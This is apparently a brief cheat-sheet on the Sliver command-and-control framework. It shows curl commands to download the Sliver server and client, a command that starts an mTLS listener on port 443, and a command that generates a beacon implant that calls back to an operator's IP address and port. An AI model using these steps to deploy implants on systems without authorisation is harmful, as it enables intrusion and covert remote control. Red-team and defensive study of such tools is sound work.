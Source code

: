 ______________________________________________________________________

title: sliver
tags:

- c2

______________________________________________________________________

## sliver

### Download the latest version

#### server

```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -s --output sliver
```

#### client

```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux -s --output sliver
```

### MTLS

#### Listener

```sh
mtls -l 443 -L 0.0.0.0 -p
```

#### Payload

```sh
generate beacon --mtls <ip address>:<port>
```
